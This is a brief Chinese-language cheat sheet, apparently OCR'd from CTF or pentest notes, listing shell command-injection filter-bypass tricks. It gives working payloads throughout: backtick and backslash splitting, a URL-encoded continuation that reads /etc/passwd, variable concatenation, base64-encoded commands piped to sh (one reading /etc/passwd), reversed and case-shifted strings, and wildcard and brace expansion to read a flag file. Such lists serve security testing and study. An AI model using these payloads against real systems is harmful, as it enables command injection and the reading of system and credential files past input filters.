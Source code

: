 - 反引号\`

```bash
wh``oami
```

- 反斜线`\`（转义字符）

```bash
wh\oami

```

转义字符可以和换行符连用，实现命令续行，URL 编码的示例如下：

```
ca%5C%0At%20/et%5C%0Ac/pa%5C%0Asswd
```

- 变量

```bash
# 变量拼接
a=f;b=lag;cat $a$b # cat flag

# 未初始化的变量，等价于null
ca${u}t f${u}lag
```

- 编码转换

```bash
# base64
echo "d2hvYW1pCg=="|base64 -d|sh # whoami
echo "d2hvYW1pCg=="|base64 -d|$0 # whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64

# 逆序
$(rev<<<'imaohw') # whoami

# 大小写
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")

# 十六进制

```

- 模式扩展

```bash
# 通配符`?`代表任意单个字符，不包括空字符，如果匹配多个字符，需要多个`?`连用
cat fla?
cat fl??

# 通配符`*`代表任意数量的任意字符，包括零个字符
cat f*

# 方括号扩展[]
cat [f]lag

# 花括号扩展{}
cat {f,}lag

# 子命令扩展

cat /fla$(u)g
cat /fla`u`g
```
